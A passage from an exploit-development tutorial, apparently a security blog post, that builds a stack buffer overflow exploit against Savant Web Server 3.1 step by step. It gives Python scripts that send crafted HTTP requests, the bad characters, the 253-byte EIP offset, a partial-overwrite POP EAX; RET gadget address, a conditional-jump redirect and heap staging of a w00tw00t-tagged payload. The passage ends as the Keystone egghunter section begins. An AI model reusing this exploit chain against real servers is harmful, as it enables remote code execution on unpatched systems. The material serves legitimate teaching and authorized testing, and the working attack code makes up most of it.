> A technically rigorous, step-by-step walkthrough of how egghunters work, how to build
> them from scratch using the Keystone assembler, and how to weaponize them against a
> real 32-bit network service when the crash buffer is too small to hold a full payload.

---

## 1. Introduction: The Space Problem

Stack buffer overflows do not always give the attacker what they want. The
overflow hands control of EIP, but the usable buffer at crash time may be 60
bytes, or 120 bytes - far below the 350–500 bytes a typical Meterpreter reverse
shell requires. Padding up to that size is not always possible because the
vulnerability itself may truncate the buffer or the application may reject
oversized input before the overflow point.

**Egghunters** are the classic solution to this problem. The technique splits
the shellcode delivery into two independent stages:

- **Stage 1 (the egghunter):** A compact stub - typically 32 to 70 bytes - that
  fits inside the restricted crash buffer. Its only job is to scan the entire
  virtual address space of the running process and locate a known marker called
  the *egg*.
- **Stage 2 (the payload):** The real shellcode, prefixed by the egg marker, is
  delivered to the target through a *different* channel - such as the body of
  the same HTTP request - and lands somewhere in the heap. The egghunter finds
  it and jumps to it, regardless of where in memory it landed.

> **What you will learn.** By the end of this article you will understand how to
> find a usable gadget under null-byte address constraints, how to redirect
> execution through the HTTP method field using a conditional jump trick, how to
> stage a secondary buffer via the heap, how to implement both a syscall-based
> and an SEH-based egghunter using the Keystone assembler, and how to bypass the
> four `RtlDispatchException` validation checks that break the SEH egghunter on
> modern Windows.
{: .prompt-info }

We will use **Savant Web Server 3.1** as the target throughout. Every step is
verified in WinDbg with a screenshot.

> Everything here is for **defensive research, education, and authorized
> testing only**. Run these techniques exclusively against software and systems
> you own or are explicitly permitted to test.
{: .prompt-warning }

The diagram below illustrates the two-stage delivery model at a glance — an egghunter stub in the small crash buffer, and the full shellcode staged separately in heap memory:



*Figure 1.1 - Two-stage egghunter architecture. Stage 1 (the egghunter stub) lives in the constrained crash buffer and scans the entire 32-bit virtual address space. Stage 2 (the shellcode) is staged in a heap allocation prefixed by the `w00tw00t` egg marker. When the egghunter finds the marker it jumps directly into the payload.*

The following diagram shows what the egghunter actually sees as it walks the virtual address space — unmapped pages trigger an access violation that is handled gracefully, while the heap allocation containing the egg causes the scan to stop and execution to transfer:



*Figure 1.2 - The egghunter's view of the 32-bit virtual address space. Unmapped pages produce an `ACCESS_VIOLATION` status code that the egghunter handles safely (via a system call or a custom SEH handler) and skips to the next page. The egg marker `w00tw00t` in the heap allocation terminates the scan and redirects execution.*

---

## 2. Target: Savant Web Server 3.1

Savant Web Server 3.1 is a 32-bit Windows network service that listens on TCP
port 8000. It crashes when it receives a GET request whose URL path exceeds the
size of the internal stack buffer - a classic unbounded `strcpy`-style overflow.

The executable ships without any modern mitigations: no ASLR, no DEP, no SafeSEH
on the main module. The only complication, as we will see, is that the module
base address starts with a null byte (`0x00xxxxxx`), which forces a partial EIP
overwrite technique.

**Bad characters confirmed for this target:** `\x00 \x0a \x0d \x20 \x25`

---

## 3. Triggering the First Crash

The proof-of-concept sends an oversized GET request with 260 bytes of `A`
characters in the URL path:

```python
import socket
from struct import pack
import sys

try:
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"GET /"
    filler = b"A" * size
    payload = method + filler + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 3.1 - The crash script. Five bytes of `GET /` precede the filler so
the request is syntactically valid enough to reach the vulnerable copy routine.*

Running it against the target:

```text
python3 eggh.py 10.0.2.15
```



*Figure 3.2 - The script connects, sends the oversized GET request, and exits cleanly. From the network side nothing looks unusual; all the damage is happening inside the target process as its stack buffer overflows.*

Switching to WinDbg attached to the server:



*Figure 3.3 - The application crashes and EIP is overwritten with `41414141`.
We have a confirmed, reproducible stack buffer overflow.*

> A successful exploit always starts with a controlled, repeatable crash. If
> you cannot reliably crash the target, you cannot reliably exploit it.
{: .prompt-tip }

---

## 4. Analyzing the Crash

### 4.1 Register State at Crash

With the service running under WinDbg and the oversized request delivered,
the first thing we do is inspect the register state to confirm our input has
reached EIP. The `r` command dumps all general-purpose and segment registers:

```text
r
```



*Figure 4.1 - The full register state. EIP is `41414141` - four of our padding bytes have been written directly into the instruction pointer. The crash confirms we control the return address and have a reproducible, reliable overflow.*

### 4.2 Where Does the Shellcode Land?

In a vanilla stack overflow the stack pointer (ESP) points directly at the start
of the attacker-controlled data, making a `JMP ESP` redirect straightforward.
Here the situation is different:

```text
dds @esp L5
```



*Figure 4.2 - `dds` (dump double-word symbols) shows that ESP points to a value
of `0x00414141`. Only **three bytes** of our filler survive at ESP; the server
appended a null terminator, treating the buffer as a C string. This small
fragment is not enough for shellcode.*

Checking whether any stack slot holds a pointer back into our controlled data:

```text
dds @esp L5
```



*Figure 4.3 - The value at `esp+4` looks like a pointer into the process image
area. We investigate it.*

```text
dc poi(esp+4)
```



*Figure 4.4 - Dereferencing `esp+4` shows the string `GET /` immediately
followed by our 260 `A` bytes. The second stack slot is a pointer directly into
our controlled buffer. This becomes the key to our gadget selection.*

---

## 5. Bad Character Identification

Before selecting gadgets or staging shellcode we must know which byte values the
server corrupts in transit. We send the full range `\x01–\xff` through the URL
path and inspect the result in WinDbg:

```python
import socket
from struct import pack
import sys

try:
    server = sys.argv[1]
    port = 8000
    size = 260
    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
        b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e"
        b"\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d"
        b"\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c"
        b"\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b"
        b"\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
        b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69"
        b"\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78"
        b"\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87"
        b"\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96"
        b"\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5"
        b"\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4"
        b"\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
        b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2"
        b"\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
        b"\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
        b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    )
    method  = b"GET /"
    filler  = b"A" * (size - len(badchars))
    payload = method + badchars + filler + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 5.1 - The bad-character script. The byte range `\x01–\xff` is placed
before the A-filler so we can inspect the sequence in memory and find where it
breaks.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 5.2 - The script runs without a connection error.*



*Figure 5.3 - The application does not crash. This means at least one bad
character in our byte range terminated the copy before it reached EIP. We
iteratively remove offending bytes until we identify the full set.*

> **Confirmed bad characters:** `\x00 \x0a \x0d \x20 \x25`
>
> These five bytes are unavailable in the URL path. Any gadget address,
> jump opcode, or shellcode byte that maps to one of these values will
> break the exploit.
{: .prompt-danger }

---

## 6. Finding the EIP Offset

### 6.1 Cyclic Pattern Attempt

The standard method for locating a stack-overflow EIP offset is to send a De Bruijn
(cyclic) sequence - a pattern in which every 4-byte subsequence is unique. After the
crash, `msf-pattern_offset` can identify which 4-byte run ended up in EIP and
therefore tell us the exact byte offset. We attempt this first:

The standard approach is to send a De Bruijn (cyclic) pattern and use
`msf-pattern_offset` to locate EIP. We try it first:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"GET /"
    filler = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai"
    payload = method + filler + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 6.1 - The De Bruijn pattern script. The pattern is 260 bytes long,
matching our target buffer size.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 6.2 - The script delivers the cyclic pattern without a connection error. The pattern is 260 bytes long to match the buffer size we identified earlier.*



*Figure 6.3 - The crash is different from the all-`A` crash. The pattern does
not align cleanly to a 4-byte EIP value. This is because several pattern bytes
(`\x0a`, `\x0d`, `\x20`, `\x25`) are in our bad-character set and were
truncated, corrupting the offset calculation. We fall back to a manual binary
search.*

### 6.2 Manual Binary Search

Split the 260-byte buffer into 130 `A`s followed by 130 `B`s:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"GET /"
    filler  = b"A" * 130
    filler += b"B" * 130
    payload = method + filler + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 6.4 - The binary-search script. If EIP is overwritten with `42424242`
(B's), the offset is somewhere above 130.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 6.5 - The binary-search payload is delivered without errors. We now inspect EIP in WinDbg to determine which half of the buffer it came from.*



*Figure 6.6 - EIP is `42424242`. The offset is somewhere beyond byte 130.
We repeat the binary-search process, narrowing the range until we isolate the
exact boundary.*

After several iterations, the offset resolves to exactly **253 bytes**. We
verify with a targeted script:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"GET /"
    filler = b"A" * 253
    EIP    = b"B" * 4
    junk   = b"C" * (size - len(filler) - len(EIP))
    payload = method + filler + EIP + junk + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 6.7 - The verification script. 253 A's, four B's at EIP, then C
padding to fill the rest of the buffer.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 6.8 - The targeted payload is sent. 253 `A` bytes fill the buffer, four `B` bytes land exactly on EIP, and `C` bytes pad out the remainder.*



*Figure 6.9 - EIP is precisely `42424242`. The offset is confirmed: **253
bytes** of padding precede the 4-byte EIP field.*

---

## 7. The Null-Byte Constraint and the Partial Overwrite

### 7.1 Module Audit

The first question is: which modules can we use for a gadget address? We load
the `narly` extension and enumerate all loaded modules and their protections:

```text
.load C:\Users\Reverse\Desktop\umods\narly.dll
```



*Figure 7.1 - Loading `narly` into WinDbg. This extension adds `!nmod`, which
reports ASLR, DEP, SafeSEH, and other flags for every loaded module.*

```text
!nmod
```



*Figure 7.2 - The only module available is `savant.exe` itself. Critically,
every address in the module begins with `0x00` - the high byte is always a null.
Since `\x00` is a bad character that terminates the URL path, we cannot write
a complete 4-byte address through the buffer.*

### 7.2 The Partial Overwrite Solution

The server's string-handling code treats our URL path as a null-terminated
string. When it copies 253 bytes plus our 3-byte EIP value into the stack
buffer, it appends a null byte automatically. This means:

- We write only **3 bytes** at offset 253.
- The server writes `\x00` as byte 4.
- Together they form a complete 4-byte address in `0x00xxxxxx` space.

We run the previous exploit to confirm the stack behavior:

```text
python3 eggh.py 10.0.2.15
```



*Figure 7.3 - Re-running the 4-byte EIP overwrite payload (before switching to the partial technique) so we can observe what the stack looks like at the moment of the crash and confirm the null-append behaviour.*



*Figure 7.4 - The application crashes with a `B`-filled EIP. We now dump the top of the stack to see exactly how the server terminates the buffer and whether any bytes in the neighbourhood are under our control.*

```text
dds @esp L5
```



*Figure 7.5 - The value at ESP is `0x00414141` - three bytes of our data plus
the null the server appended. This confirms the server copies our input as a
C string and appends `\x00` after it.*

### 7.3 Performing the Partial Overwrite

We send only 3 bytes at offset 253 and let the server supply the fourth (`\x00`):

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"GET /"
    filler = b"A" * 253
    EIP    = b"B" * 3     # server appends \x00 as the 4th byte
    junk   = b"C" * (size - len(filler) - len(EIP))
    payload = method + filler + EIP + junk + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 7.6 - The partial-overwrite script. We send `\x42\x42\x42` at offset
253; the server appends `\x00` to produce `0x00424242`.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 7.7 - The partial-overwrite payload is delivered. Only three bytes of the gadget address travel through the buffer; the high null byte will be added by the server's string-copy code.*

```text
r
```



*Figure 7.8 - EIP is `0x00424242`. The null byte was added automatically by the
server's string copy. We now have a clean partial overwrite technique.*

---

## 8. Selecting the Gadget: POP EAX; RET

### 8.1 Why POP EAX; RET?

After `POP EAX; RET` executes at our chosen address, `RET` loads EIP from the
value currently at ESP. From Figure 4.3 we know `esp+4` holds a pointer into our
buffer. A `POP EAX; RET` sequence does exactly what we need:

1. `POP EAX` - removes the value at `[ESP+0]` (a stack artifact) and loads it
   into EAX. This also has a bonus: EAX ends up containing a valid stack address,
   which matters for the instructions the HTTP method bytes generate (see below).
2. `RET` - loads EIP from `[ESP]`, which is now the `esp+4` value - a pointer
   into our controlled buffer.

Let us confirm the `esp+4` pointer and the instructions it generates.

```text
dds @esp L5
```



*Figure 8.1 - The top of the stack. ESP+4 holds the pointer we observed earlier
in Figure 4.3.*

```text
dc poi(esp+4)
```



*Figure 8.2 - Dereferencing `esp+4` shows our data again. This address is where
`RET` will send us after `POP EAX` consumes the first stack slot.*

```text
dds @esp L5
```



*Figure 8.3 - Confirming the stack layout once more before we disassemble the
destination.*

```text
u 04f5ea74
```



*Figure 8.4 - Disassembling the address at `esp+4` reveals that the bytes from
the HTTP method (`GET /`) assemble into instructions that perform arithmetic on
EAX using a memory operand. If EAX is not a valid address at that moment, these
instructions will dereference an invalid pointer and crash before we ever reach
our shellcode. `POP EAX` from the gadget loads EAX with a valid stack address,
so those instructions execute safely.*

```text
dds @esp L5
!teb
```



*Figure 8.5 - Cross-referencing the value that `POP EAX` will load against the
TEB's `StackBase`/`StackLimit` fields confirms it is a valid stack address. EAX
will be safe.*

### 8.2 Finding the Gadget

Get the opcodes for `POP EAX; RET`:

```text
nasm_shell
POP EAX  ->  58
RET      ->  C3
```



*Figure 8.6 - `POP EAX` is a single byte `\x58`; `RET` is `\xC3`. We search
for the byte sequence `58 C3` in the module.*

Locate the module range:

```text
lm m savant
```



*Figure 8.7 - `savant.exe` spans from `0x00400000` to roughly `0x00452000`.*

Search for `\x58\xC3`:

```text
s -[1]b 00400000 00452000 58 C3
```

![s -[1]b - POP EAX; RET found at 0x00418674](../images/sc35-search-58c3.png)

*Figure 8.8 - `POP EAX; RET` is found at `0x00418674`. The three low bytes are
`\x74\x86\x41` (little-endian). None of these are bad characters, and the
server will supply the high `\x00` byte automatically via the partial overwrite.*

### 8.3 Updating the Exploit

Now that we have a confirmed gadget address, we update the exploit to use it.
The partial-overwrite technique means we `pack` the full 4-byte address into the
payload - only the three low bytes are transmitted through the buffer; the server
appends the high `\x00` byte automatically. We strip the placeholder filler from
the EIP field and replace it with the gadget address:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"GET /"
    filler = b"A" * 253
    EIP    = pack("<L", 0x418674)   # POP EAX; RET - 3 bytes written, null appended
    payload = method + filler + EIP + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 8.9 - The exploit now points EIP at `0x00418674` (`POP EAX; RET`).*

Set a breakpoint on the gadget:

```text
bp 0x00418674
```



*Figure 8.10 - Breakpoint armed. The next time the server processes our request
and crashes, execution will stop here.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 8.11 - The updated exploit is delivered. The three-byte gadget address is written at offset 253; the server's null-append will complete it to `0x00418674` in EIP.*



*Figure 8.12 - The breakpoint fires at `0x00418674`. Our `POP EAX; RET` gadget is reached exactly as planned - the partial overwrite worked and the server correctly supplied the null high byte.*

Step through the gadget to confirm where we land:

```text
t
t
```



*Figure 8.13 - After two single-steps we are inside our buffer. EIP now points
into the 253-byte region we control.*

```text
u @eip
```



*Figure 8.14 - WinDbg disassembles our filler bytes as valid-looking x86
instructions. The processor will execute whatever bytes we place here.*

```text
dc @eip
```



*Figure 8.15 - The hex dump confirms the A-bytes are at EIP. We now need a
way to jump forward into useful shellcode from the HTTP method field.*

---

## 9. Redirecting Execution: the Method Field

### 9.1 Testing the Method Field

After `POP EAX; RET` executes, the `RET` bounces us to the address pointed to
by `esp+4`, which is the beginning of the HTTP method bytes (`GET /`). We want
to put a jump instruction in those bytes that leaps forward into our 253-byte
A-buffer. First we verify the method bytes are under our control:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"\x43\x43\x43\x43\x43\x43\x43\x43" + b" /"
    filler = b"A" * 253
    EIP    = pack("<L", 0x418674)   # POP EAX; RET
    payload = method + filler + EIP + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 9.1 - We replace the HTTP method string with `C` bytes (`\x43`) and
send it. The space and slash are preserved to keep the request parseable.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 9.2 - The modified payload reaches the server. The `C` bytes in the method field are preserved verbatim, confirming that region is not processed as a URL path and is therefore free of the URL bad-character set.*

```text
dds @eip
```



*Figure 9.3 - The method bytes are our `\x43\x43…` as expected. The method
field is fully controlled and is where EIP lands after the gadget executes.*

### 9.2 Attempting a Short Jump

We place `\xEB\x17` (short jump `+23`) in the method field, hoping to leap
over the `A`-buffer filler straight to a better position:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"\xeb\x17\x90\x90" + b" /"
    filler = b"A" * 253
    EIP    = pack("<L", 0x418674)
    payload = method + filler + EIP + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 9.4 - Placing `\xEB\x17\x90\x90` in the method field.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 9.5 - The short-jump payload is delivered. We now step through the gadget and examine what the `\xEB` byte looks like in the method-field memory region.*

```text
t
t
```



*Figure 9.6 - The `\xEB` byte is corrupted when stored in the method-field
memory region. The short jump cannot be used here. We need an alternative.*

---

## 10. The Conditional Jump Trick

### 10.1 Theory

A conditional jump that is *always* taken is functionally identical to an
unconditional jump - but it uses different opcodes that survive the memory
region where `\xEB` does not.

The three-instruction sequence:

```nasm
XOR ECX, ECX    ; ECX = 0, sets Zero Flag
TEST ECX, ECX   ; 0 AND 0 = 0, Zero Flag stays set
JZ  +0x11       ; jump if Zero Flag set - always true
```

`XOR ECX, ECX` always zeros ECX. `TEST ECX, ECX` always sets ZF. `JZ` (jump if
zero) therefore always fires. The conditional jump is unconditional in practice.

Getting the opcodes:

```text
nasm_shell
xor ecx, ecx  ->  31 C9
test ecx, ecx ->  85 C9
JE 0x17       ->  0F 84 11 00 00 00
```



*Figure 10.1 - `XOR ECX, ECX` = `\x31\xC9`; `TEST ECX, ECX` = `\x85\xC9`;
`JE rel32` = `\x0F\x84\x11\x00\x00\x00`. The four null bytes in the `JE`
displacement are a problem - they would terminate our string copy.*

### 10.2 The Pre-Zeroed Memory Trick

The server zero-initialises the destination buffer before copying our input into
it. This means bytes beyond the end of our input are already `\x00`. We exploit
this:

- We send the first **7 bytes** of the sequence:
  `\x31\xC9\x85\xC9\x0F\x84\x11` - no null bytes.
- The memory already contains `\x00\x00\x00\x00` at the next four positions
  (pre-zeroed).
- The processor sees the complete `\x0F\x84\x11\x00\x00\x00` instruction
  and executes the jump.

### 10.3 Updated Exploit

The 7-byte prefix replaces the old `GET /` method string. The space character and
forward slash must remain to keep the HTTP request structurally valid - the parser
must still reach the URL-path buffer to trigger the overflow:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    # xor ecx,ecx; test ecx,ecx; jz 0x17  (7 bytes, null-free)
    method = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" 
    filler = b"A" * 253
    EIP    = pack("<L", 0x418674)   # POP EAX; RET
    payload = method + filler + EIP + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 10.2 - The method field now carries our 7-byte conditional jump prefix.
The server's pre-zeroed buffer completes the instruction.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 10.3 - The conditional-jump payload is sent. The 7-byte method prefix fits cleanly before the space and slash, leaving the HTTP parser satisfied while encoding the always-taken jump.*

```text
u @eip
```



*Figure 10.4 - Disassembly of the method-field region shows
`XOR ECX,ECX; TEST ECX,ECX; JZ` exactly as we intended. The pre-zeroed bytes
completed the displacement.*

```text
t
t
dc @eip
```



*Figure 10.5 - Two single-steps later and EIP has jumped into the A-buffer.
We are now executing inside the 253-byte region we control. The redirect chain
is complete.*

---

## 11. Measuring the Available Buffer Space

With execution redirected into the A-buffer, we calculate exactly how many bytes
are usable:

```text
? 0506eb7f + 0n11 - @eip
```



*Figure 11.1 - WinDbg evaluates the expression and reports `0xfb = 251`. The
`0n11` accounts for bytes at the start of the buffer that are corrupted by the
server's handling. We have **251 usable bytes**.*



*Figure 11.2 - A Meterpreter reverse shell payload generated by `msfvenom`
typically runs 350–500 bytes after encoding. Our 251-byte budget is less than
half of what we need. This is the constraint that motivates the egghunter
architecture.*

> **The space problem in numbers:**
>
> | Budget        | Bytes |
> |---------------|-------|
> | Available      | 251   |
> | Typical shell  | ~400  |
> | Shortfall      | ~150  |
>
> We cannot shrink the payload to fit. Instead, we stage the payload elsewhere
> and use the 251-byte window to hold a compact egghunter that finds it.
{: .prompt-info }


---

## 12. Staging the Secondary Buffer in the Heap

### 12.1 The Idea

The key insight: Savant parses the HTTP body - data that follows the
`\r\n\r\n` header terminator - into a separate heap allocation *before* the
crash occurs. That allocation persists in process memory through the crash. If
we place our full shellcode in the HTTP body, we can find it with an egghunter
at crash time.

### 12.2 First Attempt: Wrong Terminator

We first try placing the secondary buffer after a single `\r\n`:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method    = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"
    filler    = b"A" * 253
    EIP       = pack("<L", 0x418674)
    teminator = b"\r\n"
    egg       = b"w00tw00t" + b"D" * 400
    payload   = method + filler + EIP + teminator + egg + b"\r\n\r\n"

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 12.1 - The first staging attempt places the egg and shellcode after a
single CRLF. We add `w00tw00t` as a searchable marker.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 12.2 - The first staging attempt is delivered. We now check whether the application crashes - if it does, the body data arrived before the overflow killed the process.*



*Figure 12.3 - No crash. A single `\r\n` does not terminate the HTTP request
headers; the server waits for more data and never reaches the vulnerable parse
path. We need the full `\r\n\r\n` double-CRLF terminator.*

### 12.3 Correct Terminator

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method    = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"
    filler    = b"A" * 253
    EIP       = pack("<L", 0x418674)
    shellcode = b"w00tw00t" + b"D" * 400
    payload   = method + filler + EIP + b"\r\n\r\n" + shellcode

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 12.4 - The corrected script places the egg marker and 400 `D` bytes
after the full `\r\n\r\n` HTTP terminator.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 12.5 - The corrected staging payload is delivered. The full `\r\n\r\n` terminator follows the overflow buffer, signalling the end of the HTTP headers and causing the server to parse the trailing body data before crashing.*



*Figure 12.6 - The application crashes as expected. Now we search for our egg
marker to verify the secondary buffer arrived.*

### 12.4 Verifying the Secondary Buffer

```text
s -a 0x0 L?80000000 w00tw00t
```



*Figure 12.7 - The ASCII search across the full virtual address space finds
`w00tw00t` at a heap address. The secondary buffer is present in memory.*

```text
dc 023b6c1e L100
```



*Figure 12.8 - Dumping the found address shows `w00tw00t` followed by an
unbroken run of `D` bytes. The buffer arrived intact.*

Calculate its size:

```text
? (023b6dae+0n8) - (023b6c1e+0n8)
```



*Figure 12.9 - The calculation confirms 400 bytes of space - well above the
400+ bytes we need for a Meterpreter payload.*

Confirm the buffer is not on the stack:

```text
!teb
```



*Figure 12.10 - The TEB shows `StackBase` and `StackLimit`. The buffer address
(`023b6c1e`) is far below `StackLimit`, confirming it is not on the stack.*

```text
!address 023b6c1e
```



*Figure 12.11 - `!address` reports `MEM_COMMIT`, `PAGE_READWRITE`, and usage
type `Heap`. The secondary buffer lives in the Windows heap - its address changes
between runs, which is exactly why we need an egghunter.*

---

## 13. The Windows Heap Manager

The Windows heap manager is a software abstraction layer that sits above the
operating system's raw virtual memory interfaces. When an application calls
`HeapAlloc` or the CRT `malloc`, the request flows through `ntdll.dll`'s
`RtlAllocateHeap` and `RtlFreeHeap` functions. At process start-up, Windows
creates a default *process heap* for each process; applications may request
additional heaps with `HeapCreate`.

The critical property for exploit development is that **heap addresses are not
static**. The address of any particular allocation depends on the order and size
of all prior allocations in that session. On systems with ASLR enabled the heap
base itself is randomised at start-up. This means we cannot hard-code the
address of our secondary buffer - it will be different every time we send our
request.

The egghunter sidesteps this entirely: instead of guessing an address, it walks
every accessible page of the process virtual address space at runtime and stops
when it finds the egg marker `w00tw00t`.

---

## 14. The Keystone Assembler Engine

Rather than hand-assembling shellcode and manually extracting opcodes, we use the
**Keystone Engine** - a Python-accessible multi-architecture assembler. We feed
it assembly source text and it returns the raw opcode bytes ready to embed in an
exploit.

Basic usage:

```python
from keystone import *

CODE = (
    "                   "
